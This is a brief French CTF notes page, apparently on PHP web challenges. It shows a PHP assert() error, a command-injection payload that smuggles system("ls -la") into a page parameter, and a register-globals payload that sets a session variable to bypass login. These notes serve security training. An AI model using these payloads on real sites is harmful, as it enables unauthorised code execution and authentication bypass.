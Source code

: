 # injection PHP

## PHP - assert()

erreur :
Parse error: syntax error, unexpected 'AA' (T_STRING) in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'AA'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

?page='.system("ls -la").'



## PHP - Register globals

...index.php ?_SESSION[logged]=1

